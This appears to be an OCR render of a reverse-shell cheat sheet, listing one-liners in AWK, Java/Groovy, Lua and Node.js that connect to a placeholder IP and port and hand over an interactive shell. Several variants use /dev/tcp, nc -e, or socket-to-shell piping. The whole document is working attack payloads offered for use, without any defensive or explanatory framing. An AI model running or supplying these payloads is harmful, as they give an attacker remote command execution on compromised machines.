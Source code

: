 ════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════


╔AWK════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ awk 'BEGIN {s = "/inet/tcp/0/[IP]/[PORT]"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════


╔JAWA═══════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[PORT];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════


╔LUA══════════╦═════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ Linux only  ║ lua -e "require('socket');require('os');t=socket.tcp();t:connect('[IP]','[PORT]');os.execute('/bin/sh -i <&3 >&3 2>&3');"

════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════																					
╔════════════════════╦══════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ Windows and Linux  ║ lua5.1 -e 'local host, port = "[IP]", [PORT] local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
																					
╔NODEJS═════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ (function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect([PORT], "[IP]", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();

╔═════╦════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ OR  ║ require('child_process').exec('nc -e /bin/sh [IP] [PORT]')																                                
╚═════╩════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
╔═════╦════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ OR  ║ -var x = global.process.mainModule.require
-x('child_process').exec('nc [IP] [PORT] -e /bin/bash')

